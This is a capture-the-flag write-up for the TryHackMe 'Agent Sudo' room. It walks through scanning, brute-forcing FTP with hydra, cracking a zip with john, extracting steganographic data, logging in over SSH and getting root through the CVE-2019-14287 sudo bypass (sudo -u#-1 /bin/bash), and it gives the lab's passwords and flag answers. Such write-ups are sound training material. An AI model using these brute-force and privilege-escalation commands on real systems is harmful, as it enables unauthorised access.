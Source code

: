 # [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Scanning

scan the machine

```
nmap -A -T4 10.10.57.85
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/352d8481-92d2-437a-b779-641da4eae8c2)

it shows 3 open ports 21 (fpt), 22 (ssh), 80 (http)

## HTTP (optional)

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7280081d-8978-496f-a001-ed5c86090a0e)

i found a hint say using your `user-agent` codename to view the secret (such as agent `R`)

## Enumeration

maybe i will use BurpSuite Intruder to bruteforce user-agent

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/04891e3b-67b2-4e9b-aed6-142416d8fc84)

to use this payload, we need another 2nd payload that run 1 time

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b0037f6b-5a66-4766-a256-032f5d782ab2)

i see that a diffent at `User-agent: C`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1cff0bb0-4d17-468f-9fe9-1c54d97d28fb)

it's 302 movement

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/defa2d91-3369-4193-9021-d5f2c7372dc0)

go there, i found his name is `chris`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6c3057e-89ec-4c35-847f-9784660f8bc2)

## FTP

now try to bruteforce fpt password with hydra

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.57.85
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ecd86b80-8d66-474a-9452-8b59afee28bf)

login to ftp server

```
ftp 10.10.57.85
chris
crystal
ls
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7c8340a1-c24d-4760-bb5e-6b69bd78aa78)

get all files to local to process later

```
mget *
```

## Forensics

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e3aeca01-aa94-4443-bf95-cbf244738801)

here is a note for agent J

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7b416466-bca7-41c1-a567-14185f7b85d3)

hmm, let's do some forensics with 2 images

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3ecd5272-3b21-451e-a040-b8b2898f7822)

hmm i found a zip file in `cutie.png`

```
binwalk -e cutie.png
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1c93903c-5b39-459b-9099-ad4f77fd4112)

it's unable to unzip the file, so crack it

```
zip2john 8702.zip > hash
cat hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/845ce747-2e40-48d8-b77e-8471c1cc59e2)

crack the file

```
7z x 8702.zip
alien
```

i found a message to agent R: `QXJlYTUx`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f3675ec7-950f-446c-82dc-df2da4ba37ca)

use that password to crack steg at left image

```
steghide extract -sf cute-alien.jpg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/554998d2-a1b9-4651-826c-a6fe37b5e388)

hmm, i found it's a base64 and after decode, we have `Area51` is our real password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3c29f2ca-8c65-4b4b-b06f-7fa743109448)

so, we got `james` ssh password is `hackerrules!`

## Exploitation

ssh to the server

```
ssh james@10.10.196.225
hackerrules!
ls
cat user_flag.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2283c37b-dff0-42d5-b08b-e873f2c39086)

| Flag | cat user_flag.txt |
| --- | --- |
| Answer | b03d975e8c92a7c04146cfa7a5a313c7 |

download the image to local for further research

```
python3 -m http.server
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/151fa7b8-b64f-46b6-838a-0f488737bcb8)

hmm it's an aline image

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1e9c3db7-47a8-4422-95da-976d074bbf9b)

search with google image and found an acticle about `roswell alien autopsy`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1008c877-2458-49f7-9a27-24cac60b754c)

## Privilege Escalation

```
sudo -l -l
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/797796bc-774f-4d8d-af5e-2087193d200d)

search that vulnerabiliy i found a CVE-2019-14287

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/75add10e-7998-4279-aeaa-c8eed44994d1)

and very easy

```
sudo -u#-1 /bin/bash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7a9ea7aa-4c9b-4c9a-bf38-11de754f84ff)

also agent R is `DesKel`

| Flag | root.txt |
| --- | --- |
| Answer | b53a02f55b57d4439e3341834d70c062 |
